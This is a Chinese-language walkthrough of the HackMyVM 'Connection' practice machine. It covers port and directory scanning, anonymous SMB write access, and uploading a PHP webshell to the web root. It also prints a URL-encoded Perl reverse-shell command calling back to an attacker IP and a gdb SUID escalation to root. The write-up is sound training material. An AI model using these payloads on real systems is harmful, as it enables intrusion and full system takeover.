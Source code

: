 ```yaml
---
{"dg-publish":true,"tags":["HMV","SUID提权","SMB"],"难度":"⭐️⭐️","作者":"whitecr0wz","系统":"Linux","permalink":"/24-渗透/HMV/4.Connection/","dgPassFrontmatter":true,"noteIcon":"2","created":"2024-11-22T19:13:18.845+08:00"}
---
```



## 1. 基本信息^toc

- [[24-渗透/HMV/4.Connection#1. 基本信息^toc\|1. 基本信息]]
- [[24-渗透/HMV/4.Connection#2. 信息收集\|2. 信息收集]]
- [[24-渗透/HMV/4.Connection#3. SMB服务\|3. SMB服务]]
- [[24-渗透/HMV/4.Connection#4. webshell\|4. webshell]]
- [[24-渗透/HMV/4.Connection#5. SUID提权\|5. SUID提权]]

```
靶机链接：https://hackmyvm.eu/machines/machine.php?vm=Connection
```



作者：[ whitecr0wz](https://hackmyvm.eu/profile/?user=whitecr0wz)


```
难度：⭐️⭐️
```


```
知识点：SUID提权-gdb 、SMB服务
```
## 2. 信息收集

端口扫描

```Bash
Nmap scan report for 192.168.9.6
Host is up (0.00016s latency).
Not shown: 996 closed tcp ports (reset)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
MAC Address: 08:00:27:46:CA:97 (Oracle VirtualBox virtual NIC)
```
目录扫描

```Bash
gobuster dir -u http://192.168.9.6/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,zip,css,txt
```
没有啥东西

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/4.Connection.001.png)

## 3. SMB服务

扫描端口发现开启了139与445端口，这是SMB服务的特征 

利用enum4linux 工具对目标主机的smb服务进行扫描

```Bash
enum4linux -a -o 192.168.9.6
```
![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/4.Connection.002.png)

可以发现share文件夹可以读取

smbclient连接上去

```Bash
┌──(root㉿kali)-[/home/kali]
└─# smbclient //192.168.9.6/share
Password for [WORKGROUP\kali]:
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Sep 23 09:48:39 2020
  ..                                  D        0  Wed Sep 23 09:48:39 2020
  html                                D        0  Wed Sep 23 10:20:00 2020

                7158264 blocks of size 1024. 5295652 blocks available
smb: \> allinfo html
altname: html
create\_time:    Wed Sep 23 10:20:00 AM 2020 CST
access\_time:    Sun Nov  3 01:51:49 PM 2024 CST
write\_time:     Wed Sep 23 10:20:00 AM 2020 CST
change\_time:    Wed Sep 23 10:20:00 AM 2020 CST
attributes: D (10)
```
发现里面有一个这个html目录，进去后发现就是网站的根目录

而且目录的属性是10 

即8+2 

8：这是一个目录

2：这个文件夹是隐藏的

```Bash
第 0 位（1）：表示 只读（Read-only）。
第 1 位（2）：表示 隐藏（Hidden）。
第 2 位（4）：表示 系统文件（System）。
第 3 位（8）：表示 目录（Directory）。
第 4 位（16）：表示 存档（Archive）。
```
这里可以说明html文件是可以写入的

直接传一个后门

```Bash
cd html
put 1.php
```
![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/4.Connection.003.png)

## 4. webshell

发现传的eval马好像不太好弹shell
重新传了一个系统马

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/4.Connection.004.png)

弹shell

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/4.Connection.005.png)

```Bash
cmd=perl%20-e%20%27use%20Socket%3B%24i%3D%22192.168.9.3%22%3B%24p%3D1122%3Bsocket%28S%2CPF\_INET%2CSOCK\_STREAM%2Cgetprotobyname%28%22tcp%22%29%29%3Bif%28connect%28S%2Csockaddr\_in%28%24p%2Cinet\_aton%28%24i%29%29%29%29%7Bopen%28STDIN%2C%22%3E%26S%22%29%3Bopen%28STDOUT%2C%22%3E%26S%22%29%3Bopen%28STDERR%2C%22%3E%26S%22%29%3Bexec%28%22%2Fbin%2Fsh%20-i%22%29%3B%7D%3B%27
```
## 5. SUID提权

```Bash
(remote) www-data@connection:/var/www/html$ find / -perm -4000 2>/dev/null
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/newgrp
/usr/bin/umount
/usr/bin/su
/usr/bin/passwd
/usr/bin/gdb
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/mount
/usr/bin/gpasswd
```
![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/4.Connection.006.png)

```Bash
cd /usr/bin
./gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit
```
![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/4.Connection.007.png)



